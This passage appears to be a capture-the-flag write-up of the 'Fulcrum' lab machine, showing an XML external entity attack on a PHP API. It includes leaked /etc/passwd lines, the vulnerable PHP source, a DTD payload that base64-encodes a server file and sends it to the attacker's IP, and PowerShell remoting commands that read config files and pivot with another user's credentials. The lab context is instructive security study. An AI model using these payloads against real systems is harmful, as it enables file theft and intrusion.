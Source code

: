 By changing the file in `test.dtd` we can exfiltrate sensitive files, for further analysis, for example the contents of `/etc/passwd` or the fulcrum api source code. 

```
root:x:0:0:root:/root:/bin/bash
....[snip]....
messagebus:x:108:111::/var/run/dbus:/bin/false
blueprint:x:1000:1000:blueprint,,,:/home/blueprint:/bin/bash
colord:x:109:117:colord colour management daemon,,,:/var/lib/colord:/bin/false
libvirt-qemu:x:64055:115:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:110:118:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
```

_Fulcrum API Source Code_
```php
<?php
        header('Content-Type:application/json;charset=utf-8');
        header('Server: Fulcrum-API Beta');
        libxml_disable_entity_loader (false);
        $xmlfile = file_get_contents('php://input');
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile,LIBXML_NOENT|LIBXML_DTDLOAD);
        $input = simplexml_import_dom($dom);
        $output = $input->Ping;
        //check if ok
        if($output == "Ping")
        {
                $data = array('Heartbeat' => array('Ping' => "Ping"));
        }else{
                $data = array('Heartbeat' => array('Ping' => "Pong"));
        }
        echo json_encode($data);


?>
```

From our further enumeration we know that there are other applications running on this box with known file names (results from enumerating the fulcrum web service on port 4). Attempting to access one of the known files like `home.php` ends with nothing being returned, so likely what this means that the other web apps are separated into different directories.

Attempting common web directories like _www, html, web, upload, uploads_ you discover that there is web-content being served from the `uploads` directory which so happens to be the content of the Fulcrum web application service being hosted on port 4. 

_dtd payload for discovering content in uploads web directory_
```
root@dastinia:~/htb/fulcrum/serve# cat test.dtd  


<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=../uploads/index.php">  
<!ENTITY % intern "<!ENTITY &#37; xxe SYSTEM 'http://10.10.14.128/result?%payl;'>">
```


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke